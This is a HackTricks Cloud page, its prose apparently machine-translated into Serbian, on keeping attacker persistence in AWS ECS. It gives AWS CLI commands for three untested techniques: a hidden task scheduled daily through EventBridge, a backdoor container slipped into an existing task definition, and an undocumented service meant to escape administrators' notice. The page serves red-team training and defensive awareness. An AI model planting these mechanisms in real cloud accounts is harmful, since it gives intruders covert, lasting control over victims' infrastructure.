 # AWS - ECS Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECS

For more information check:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Hidden Periodic ECS Task

{% hint style="info" %}
TODO: Test
{% endhint %}

Napadač može kreirati skrivenu periodičnu ECS zadatak koristeći Amazon EventBridge da **zakazuje izvršenje zlonamernog zadatka periodično**. Ovaj zadatak može obavljati izviđanje, exfiltrirati podatke ili održavati postojanost u AWS nalogu.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### Backdoor kontejner u postojećoj ECS definiciji zadatka

{% hint style="info" %}
TODO: Test
{% endhint %}

Napadač može dodati **neprimetan backdoor kontejner** u postojećoj ECS definiciji zadatka koji se pokreće zajedno sa legitimnim kontejnerima. Backdoor kontejner se može koristiti za postojanost i izvođenje zlonamernih aktivnosti.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### Nedokumentovana ECS Usluga

{% hint style="info" %}
TODO: Test
{% endhint %}

Napadač može kreirati **nedokumentovanu ECS uslugu** koja pokreće zloćudni zadatak. Postavljanjem željenog broja zadataka na minimum i onemogućavanjem logovanja, postaje teže za administratore da primete zloćudnu uslugu.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
